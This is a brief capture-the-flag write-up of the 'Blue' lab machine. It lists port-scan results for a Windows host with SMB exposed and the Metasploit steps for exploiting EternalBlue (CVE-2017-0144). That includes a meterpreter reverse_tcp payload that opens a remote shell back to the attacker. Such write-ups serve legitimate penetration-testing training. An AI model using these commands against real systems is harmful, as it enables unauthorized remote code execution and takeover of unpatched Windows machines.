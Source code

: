 # Blue Write-Up

Easy

Tags: 
`Easy`
`External`
`Enumeration`
`SMB`
`Penetration Tester Level 1`
`Remote Code Execution`
`CVE-2017-0144`
`Network`
`CVE Exploitation`
`Windows Vulnerabilities`
`Public Vulnerabilities`

## Intro

1. Eternal Blue

## Exploit

### Port scanning

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

### [Exploit EternalBlue with Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/)

```
use exploit/windows/smb/ms17_010_eternalblue
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run